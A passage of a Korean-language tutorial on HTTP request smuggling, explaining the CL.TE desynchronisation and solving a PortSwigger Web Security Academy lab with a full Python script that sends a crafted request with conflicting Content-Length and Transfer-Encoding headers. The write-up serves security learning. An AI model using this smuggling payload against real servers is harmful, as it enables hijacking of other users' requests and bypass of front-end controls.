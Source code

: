 Front-end 서버는 `Content-Length` 헤더를 보고 요청 body의 byte 길이가 13이라고 결정합니다. 그리고 이 요청을 Back-end 서버에게 포워드합니다.

Back-end 서버는 `Transfer-Encoding`헤더를 보고 body를 chunked encoding을 사용한 것으로 이해합니다. 그리고 zero size의 chunk를 처리하고, 이 chunk가 요청의 마지막이라고 인식합니다. 그래서 뒤에 `SMUGGLED`는 처리되지 않은 채로 남아있고, Back-end 서버가 이 문자열을 다음 요청의 시작으로 사용합니다.

예제를 하나 풀어보겠습니다 :

**LAB: HTTP request smuggling, basic CL.TE vulnerability**  

**LAB Description :**

이 Lab은 chunked encoding을 지원하지 않는 Front-end 서버와, 지원하는 Back-end 서버로 이루어져 있습니다. Front-end 서버는 `GET`, `POST` 메소드 외에 다른 메소드를 이용한 요청은 거부합니다.

이 Lab을 풀려면, HTTP request smuggling 공격을 이용해서 다음 요청이 `GPOST` 메소드를 사용하게 해야 합니다.

**PAYLOAD :**

```python
import socket
import requests
import ssl

HOST = "ac431f3f1ec6d7438018a64c00cb008d.web-security-academy.net"
PORT = 443

def send_payload(data):
    context=ssl.create_default_context()
    sock=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    ssl_sock=context.wrap_socket(sock,server_hostname=HOST)
    ssl_sock.connect((HOST,PORT))
    ssl_sock.send(data)
    data = ssl_sock.recv(1024)
    ssl_sock.close()

    return data

second_request  = b''

first_request  = b'POST / HTTP/1.1\r\n'
first_request += b'Host: ac431f3f1ec6d7438018a64c00cb008d.web-security-academy.net\r\n'
first_request += b'Content-Length: '+str(len(second_request)+6).encode()+b'\r\n'
first_request += b'Connection: keep-alive\r\n'
first_request += b'Content-Type: application/x-www-form-urlencoded\r\n'
first_request += b'Transfer-Encoding: chunked\r\n'
first_request += b'\r\n'
first_request += b'0\r\n\r\n'
first_request += b'G'


smuggle_request = first_request + second_request

data = send_payload(smuggle_request)

print (f'{"[*] REQUEST":^10}')
print (smuggle_request.decode())
print ("{:^10}".format("[*] RESPONSE"))
print (data.decode())
```

